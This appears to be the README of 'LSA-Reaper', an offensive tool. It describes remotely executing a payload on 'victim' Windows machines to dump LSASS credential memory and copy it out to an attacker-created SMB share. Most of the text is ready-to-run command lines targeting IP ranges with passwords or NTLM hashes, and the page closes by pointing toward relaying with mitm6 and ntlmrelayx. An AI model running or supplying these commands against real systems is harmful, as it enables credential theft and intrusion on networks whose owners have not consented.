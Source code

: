 ## Methodology
LSA-Reaper will begin by ping sweeping all provided IPs or IP ranges for alive hosts. LSA-Reaper will then create a SMB share with a random username and password that will act as the exfiltration point. LSA-Reaper will then execute the net use command on the victim machine via wmiexec or atexec to make the victim machine mount the share as a network drive and then execute msbuild, regsvr32, calc.exe, or an EXE file to execute the payload which will dump LSASS and save it to the mounted SMB share.

## Usage
```
sudo python3 lsa-reaper.py
```
![](/assets/hlp.png)

## Examples

ALL of these command arguments are interchangeable
```
sudo python3 lsa-reaper.py domain/user:'Password'@ip

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.100

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.0/24

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.10-200

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@ipList.txt

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@/absolute/path/to/file/ipList.txt

sudo python3 lsa-reaper.py testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -hashes 'LMHASH:NTHASH' testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -ip local_ip testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -drive A testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -localauth localuser@10.0.0.100

sudo python3 lsa-reaper.py -ip eth0 testdomain/testuser:'P@ssw0rd!'@10.0.0.100 -payload regsvr32 -method smbexec -ap
```

![](/assets/Reaper-Running.png)

![](/assets/example.png)

## Usage with Impacket's ntlmrelayx
First things first you need to run mitm6 and ntlmrelayx
